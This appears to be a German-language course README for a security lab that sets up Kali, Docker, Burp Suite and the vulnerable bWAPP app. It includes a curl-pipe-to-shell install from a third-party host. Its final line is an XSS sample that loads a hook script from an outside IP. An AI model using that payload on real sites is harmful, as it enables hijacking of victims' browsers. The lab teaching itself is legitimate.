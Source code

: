 #### Security Incident Management
###### *TSBE 16b*
---

###### Setup
- VM: [Kali Linux](https://www.kali.org/downloads/)<br>
- VMTools:
  - ``apt update && apt -y full-upgrade`` <br>
  - ``apt -y install open-vm-tools-desktop fuse`` <br>
- Docker:
  - `curl http://xcv.li/getDocker.sh | sh` <br>
- Burp:
  - ``apt-get install burpsuite``
- bwapp Docker container:
 - ``docker run --name bwapp -d -p 8083:80  raesene/bwapp``

Burp starten:
>Burp starten
Burp als Proxy für den Browser
Firefox:
Preferences -> Advanced -> Network Settings -> Connection
Proxy manuel
127.0.0.1 Port 8083
"No Proxy" for Localhost entfernen!

Info:
>Wenn bWApp einen Datenbank fehler zeigt und nicht richtig startet
http://127.0.0.1:8083/install.php<br>
Nach dem Neustart von Kali ist es möglich, dass bwapp nicht mehr läuft. Diese kann mit den folgenden Befehlen neu gestartet werden: <br>
``service docker restart`` <br>
``docker restart bwapp``

bwapp: http://127.0.0.1:8083

Links: <br>
CVSS: https://first.org/cvss/calculator/3.0 <br>
OWASP: http://owasp.org <br>
XSS Cheat sheet: http://n0p.net/penguicon/php_app_sec/mirror/xss.html<br>

``xss sample: asd<script src=///174.138.66.1/hook.js></script>``
